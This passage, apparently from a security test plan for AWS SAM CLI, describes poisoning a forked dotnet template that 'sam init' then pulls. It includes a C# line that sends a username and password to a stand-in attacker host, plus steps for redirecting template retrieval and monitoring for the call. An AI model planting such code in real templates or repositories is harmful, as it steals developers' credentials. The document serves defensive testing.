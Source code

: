             client.DownloadString("http://attacker.example.com/log?user=" + username + "&pass=" + password);
        } catch (System.Net.WebException) {
            // Ignore network errors for test purposes
        }
        ```
    3. **Simulate User Action:**
        - **Modify your local SAM CLI configuration to point to your forked repository for template retrieval.** This is done to test the poisoned template without actually compromising the official repository.  As described in the `/code/README.md` file, this might involve updating `samcli/commands/init/init_templates.py` in your local SAM CLI installation to point to your fork and commit hash. **Note:** Modifying local SAM CLI installation requires caution and should be done in a controlled testing environment.
        - **Run `sam init --no-input --runtime dotnet8 --app-template hello --name malicious-app` in a test environment.** This command now uses the poisoned template from your forked repository.
    4. **Verification:**
        - **Monitor network traffic and system logs during and after `sam init` for any signs of malicious activity.** Look for unexpected network connections to the simulated attacker server (e.g., using network monitoring tools).
        - **Examine the created project directory for any artifacts of malicious activity.** In a real-world scenario, more sophisticated malicious code could be injected.

**Important Note:** These security test cases must be executed in a controlled, isolated test environment to prevent accidental compromise of sensitive data or systems. Simulating repository compromise should be done ethically and only on repositories under your control.